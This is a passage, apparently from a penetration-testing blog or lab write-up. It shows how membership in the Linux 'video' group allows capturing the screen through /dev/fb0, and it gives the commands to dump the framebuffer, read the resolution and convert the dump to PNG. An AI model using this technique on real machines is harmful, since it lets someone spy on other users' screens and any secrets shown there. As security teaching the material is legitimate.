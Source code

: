 ```shell
cat /dev/fb0 > /home/user/screenshot.raw
```

List the file /tmp:

```shell
ls -l /tmp/screenshot.raw
```

{{< image src="/images/posts/tty3-video-group.png" caption="TTY3 Video Group" src_s="/images/posts/tty3-video-group.png" src_l="/images/posts/tty3-video-group.png" >}}

Click this button in VMware or just do `Ctrl+Alt+Delete`:

{{< image src="/images/posts/vmware-alt-del-video-group.png" caption="VMware Alt+Del" src_s="/images/posts/vmware-alt-del-video-group.png" src_l="/images/posts/vmware-alt-del-video-group.png" >}}

We can view the files that the video group has:

```shell
user@pwn:~/raw2png$ find / -group video 2>/dev/null
/dev/dri/card0
/dev/fb0
user@pwn:~/raw2png$ 
```

The video group has access to view the screen output. we can observe the screens. To do that we need to grab the current image on the screen in raw data and get the resolution that the screen is using. The screen data can be saved in `/dev/fb0` and we could find the resolution of this screen on 
`/sys/class/graphics/fb0/virtual_size`

```shell
user@pwn:~$ cat /sys/class/graphics/fb0/virtual_size
2048,2048
```

Then convert this to png:

```shell
user@pwn:~$ ./iraw2png.pl 2048 2048 < /home/user/screenshot.raw > screenshot.png
pnmtopng: 5 colors found
```

Now open the image:

{{< image src="/images/posts/iraw2png-open-image.png" caption="iraw2png Open Image" src_s="/images/posts/iraw2png-open-image.png" src_l="/images/posts/iraw2png-open-image.png" >}}

Alternatively, we can open the raw image with GIMP, and select the screen.raw file and select as file type Raw image data:

{{< image src="/images/posts/gimp-raw.png" caption="GIMP Raw" src_s="/images/posts/gimp-raw.png" src_l="/images/posts/gimp-raw.png" >}}

Add the resolution size found in `cat /sys/class/graphics/fb0/virtual_size` and select the Image Type:

{{< image src="/images/posts/gimp-image-type.png" caption="GIMP Image Type" src_s="/images/posts/gimp-image-type.png" src_l="/images/posts/gimp-image-type.png" >}}
